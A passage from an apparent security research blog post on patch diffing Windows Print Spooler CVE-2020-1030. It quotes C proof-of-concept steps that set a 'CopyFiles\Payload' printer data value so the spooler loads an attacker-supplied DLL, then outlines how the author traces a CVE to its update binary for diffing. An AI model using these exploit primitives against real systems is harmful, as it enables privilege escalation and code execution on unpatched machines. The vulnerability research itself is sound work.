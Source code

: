 ```c
	printf("Failed: OpenPrinter(), %ls. Error: %d\n", pszPrinterName, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}
```

8. Reuse `LoadLibrary` primitive, this time pointing to your newly copied payload. 
```c
// Call LoadLibraryEx (localspl!SplLoadLibraryTheCopyFileModule) with our payload

cbData = ((DWORD)wcslen(szDestination) + 1) * sizeof(WCHAR);
dwStatus = SetPrinterDataEx(hPrinter, L"CopyFiles\\Payload", L"Module", REG_SZ, (LPBYTE)szDestination, cbData);

if (dwStatus != ERROR_SUCCESS)
{
	printf("Failed: SetPrinterDataEx(), %ls. Error: %d\n", szDestination, GetLastError());
	ClosePrinter(hPrinter);
	return -1;
}

```

9. **Boom**

From the write up and PoC it is pretty clear what the primitives are and how they are used. I suggest you take a look at yourself for further details. Understanding the the primitives above give us pretty good insight on how this vulnerability would be patched.  Essentially, Spooler needs to find a way to limit both primitives 2 and 3 at the very least. 

## Patch Diffing CVE-2020-1030

The fun begins. This is when you get to figure out how the particular CVE was fixed and get your first look at the section of code with the security issue. From the wealth of information you have from the *CVE-2020-1030*, then you set off to see how they fixed it with a compass and detailed map to comprehension.

I performed that patch diff using the process laid out in the [first post](Patch%20Diffing%20In%20the%20Dark%20-%20CVE-2021-1657.md#Finding%20a%20CVE%20to%20Diff), *mostly*.  For *CVE-2021-1657* I went about downloading the binaries and the large update files to extract the `fxscompose.dll` I was looking for. 

```mermaid

graph LR;

A[CVE] --> B[MSRC info page];
B --> C[KB article];
C --> D[MUC site];
D --> E[MSU archive];
E --> F[Extract binary from MSU];
```
<sub>Process mapping CVE to a specific security update and eventual acquisition of binary to diff </sub>
